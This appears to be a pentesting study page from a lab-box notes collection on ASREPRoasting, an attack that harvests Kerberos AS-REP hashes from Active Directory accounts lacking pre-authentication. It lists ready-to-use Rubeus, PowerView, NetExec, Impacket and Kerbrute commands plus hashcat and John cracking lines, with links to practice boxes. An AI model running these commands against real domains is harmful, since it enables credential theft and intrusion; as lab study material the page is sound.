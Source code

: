 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# ASREPRoasting

## TL;DR&#x20;

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**. If an account has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **Authentication Service - Response (AS-REP)**. The AS-REP contains the **TGT** which is encypted with the account's password hash which, depending on its strength, can be potentially cracked.

<figure><img src="../../../.gitbook/assets/kerberos_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="PowerView (UserEnum)" %}
{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```
{% endtab %}
{% endtabs %}

## Linux <a href="#linux" id="linux"></a>

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetNPUsers.py DOMAIN/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users.lst
```
{% endtab %}

{% tab title="Kerbrute" %}
```bash
kerbrute userenum -d DOMAIN --dc 172.16.5.5 /opt/jsmith.txt 
```
{% endtab %}
{% endtabs %}

## Hash cracking

{% tabs %}
{% tab title="Hashcat" %}
```
hashcat -m 18200 user_hash /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="John" %}
{% code overflow="wrap" %}
```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 asreproastable_users
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Forest (Easy)" %}
{% content-ref url="../../../boxes/boxes/easy/forest.md" %}
[forest.md](../../../boxes/boxes/easy/forest.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sauna (Easy)" %}
{% content-ref url="../../../boxes/boxes/easy/sauna.md" %}
[sauna.md](../../../boxes/boxes/easy/sauna.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Blackfield (Hard)" %}
{% content-ref url="../../../boxes/boxes/hard/blackfield.md" %}
[blackfield.md](../../../boxes/boxes/hard/blackfield.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Kerberos" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}
{% endtabs %}
